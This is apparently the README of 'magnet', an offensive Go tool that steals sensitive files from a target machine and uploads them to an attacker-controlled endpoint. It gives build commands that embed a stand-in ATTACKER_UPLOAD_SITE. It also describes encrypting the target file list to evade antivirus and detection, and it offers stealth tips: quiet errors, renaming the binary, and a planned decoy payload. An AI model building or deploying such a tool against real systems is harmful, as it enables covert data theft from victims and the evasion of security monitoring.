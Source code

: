 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  All the job is done at compilation time</pre>
</div>



## Usage

**At compilation time** you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

So the compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files_obfuscated.txt)
export KEY=[YOUR_SECRET_KEY]
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X 'main.FileList=$FILES' "-X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'" magnet.go
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Obfuscation/Encryption

As you can see, it uses <code>linux_juicy_files_<b>obfuscated.txt</b></code>. To avoid detection system, as we are seeking for senssitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

To build the obfuscated list:
```shell
./list_obfuscator $KEY [FILE]
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

* Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
* Handle directories

